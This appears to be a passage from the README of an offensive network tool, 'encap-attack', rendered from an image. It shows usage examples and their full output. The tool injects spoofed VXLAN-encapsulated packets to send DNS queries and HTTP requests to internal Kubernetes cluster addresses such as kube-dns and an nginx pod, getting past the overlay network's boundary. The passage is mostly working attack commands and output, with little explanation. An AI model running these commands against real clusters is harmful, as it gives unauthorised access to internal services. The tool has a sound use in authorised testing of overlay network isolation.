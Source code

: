 Example:

```
# encap-attack ipip -d 192.168.124.9 -s 192.168.124.11 -mi aa:bb:cc:dd:ee:ff --vni 4096 -pd 4789 request -di 10.100.99.5 dns -t A kube-dns.kube-system.svc.cluster.local
Running in VXLAN mode

Interface IP: 192.168.124.200

Sending DNS packet: Ether / IP / UDP / VXLAN / Ether / IP / UDP / DNS Qry "b'kube-dns.kube-system.svc.cluster.local.'" 

Response:
  kube-dns.kube-system.svc.cluster.local: 10.96.0.10
```

For an HTTP request:

```shell
encap-attack ipip -d <destination_host_ip> -s <another_host_ip> -mi <vtep> --vni <vni> -pd <vxlan_tunnel_port> request -di <internal_destination_ip> http "<request>"
```

Example:

```
# encap-attack ipip -d 192.168.124.10 -s 192.168.124.11 -mi 99:aa:bb:cc:dd:ee --vni 4096 -pd 4789 request -di 10.100.99.5 http "GET / HTTP/1.1\r\nHost:10.100.99.5"
Running in VXLAN mode

Interface IP: 192.168.124.200

Sending SYN: Ether / IP / UDP / VXLAN / Ether / IP / TCP 192.168.124.200:28098 > 10.100.99.5:http S

Sending ACK: Ether / IP / UDP / VXLAN / Ether / IP / TCP 192.168.124.200:28098 > 10.100.99.5:http A

Sending ACK PUSH: Ether / IP / UDP / VXLAN / Ether / IP / TCP 192.168.124.200:28098 > 10.100.99.5:http PA / Raw

Sending ACK: Ether / IP / UDP / VXLAN / Ether / IP / TCP 192.168.124.200:28098 > 10.100.99.5:http A

Sending FIN ACK: Ether / IP / UDP / VXLAN / Ether / IP / TCP 192.168.124.200:28098 > 10.100.99.5:http FA

Sending ACK: Ether / IP / UDP / VXLAN / Ether / IP / TCP 192.168.124.200:28098 > 10.100.99.5:http A

Response:

HTTP/1.1 200 OK
Server: nginx/1.27.1
Date: Fri, 23 Aug 2024 10:35:13 GMT
Content-Type: text/html
Content-Length: 615
Last-Modified: Mon, 12 Aug 2024 14:21:01 GMT
Connection: keep-alive
ETag: "66ba1a4d-267"
Accept-Ranges: bytes


<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
</head>
<body>
<h1>Welcome!</h1>
</body>
```